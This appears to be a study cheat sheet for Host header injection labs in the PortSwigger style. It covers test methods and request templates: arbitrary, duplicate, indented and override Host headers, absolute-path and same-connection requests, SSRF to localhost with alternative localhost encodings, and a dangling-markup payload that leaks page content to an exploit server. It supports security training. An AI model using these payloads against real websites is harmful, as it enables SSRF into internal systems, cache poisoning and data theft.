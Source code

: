 # Host Header Injection - CHEATSHEET + LABS
## Key Terms

```bash
- Param Miner extension
	  -> guess: headers, params, body, everything!
```

## Walkthrough - Most Important Labs

- [Host-header-injection-via-web-cache-poisoning+xss](host-header-injection-via-web-cache-poisoning+xss.md)

- [SSRF via arbitraty host + EXTRA lab: absolute path](SSRF-via-arbitraryhost-and-absolute-path.md)

- [SSRF-via-host-validation-bypass-via-connection-state-attack](SSRF-via-host-validation-bypass-via-connection-state-attack.md) ❗


## Metodology

❗ Important: To avoid wasting time during the exam, PortSwigger warns that if an SSRF exists it will always be reachable at **localhost** on **port 6566**. 

```bash
- Discover allowed headers with Param Miner
- Try Arbitrary Host
- Only local users? 
	  -> localhost
	  -> SSRF 
- Inject duplicate host header -> blocked? -> indent.
- Intruder -> !! disable update host to match !! 
- Try absloute path in GET = ignore malicious host 
- Send 2 request in a single connection -> 1 valid + 2 with SSRF
- Try inject in port after port delimeter : delimeter  
```

## Cheat Sheet

```bash
# ARBITRARY HOST / TRY FIRST INSERT COLLABORATOR PAYLOAD 
GET /admin
Host: <VULNERABLE-WEB>:<OUR-SV>||<LOCALHOST-SSRF>
# DUPLICATE HOST / SWITCH ORDER
GET /example HTTP/1.1
Host: <VULNERABLE-WEB>
Host: <OUR-SV>||<LOCALHOST-SSRF>
# MALICIOUS INDENTED <TAB> (TRY MORE TABS) HOST + LEGIT HOST
GET /example HTTP/1.1
	Host: <OUR-SV>||<LOCALHOST-SSRF>         
Host: <VULNERABLE-WEB>
# TRY OTHER HEADERS -> X-Host, X-Forwarded-Server, X-HTTP-Host-Override ... etc
GET /example HTTP/1.1
Host: <VULNERABLE-WEB>
X-Forwarded-Host: <OUR-SV>||<LOCALHOST-SSRF>
# ABSOLUTE PATH = IGNORE HOST 
GET <ABSOLUTE_PATH>            
Host: <OUR-SV>||<LOCALHOST-SSRF>
# MULTIPLE REQUEST IN A SINGLE CONNECTION
## REQUEST 1
GET /
Host: <VALID-HOST>
Connection: keep-alive
## REQUEST 2
GET /admin
Host: <VULNERABLE-WEB>:<OUR-SV>|
Connection: keep-alive
# AFTER PORT : DELIMETER - DANGLING MARKUP
GET /
Host: <YOUR-LAB>:'<a href="//<EXPLOIT-SV>/?
```

> DIFFERENT WAYS TO WRITE LOCALHOST   
``` 
> localhost
> 127.0.0.1  
	in decimal -> 2130706433 
	in binary  -> 01111111.00000000.00000000.00000001
> 127.255.255.255 
    in decimal -> 2147483647
    in binary  -> 01111111.11111111.11111111.11111111
> 127.1
```
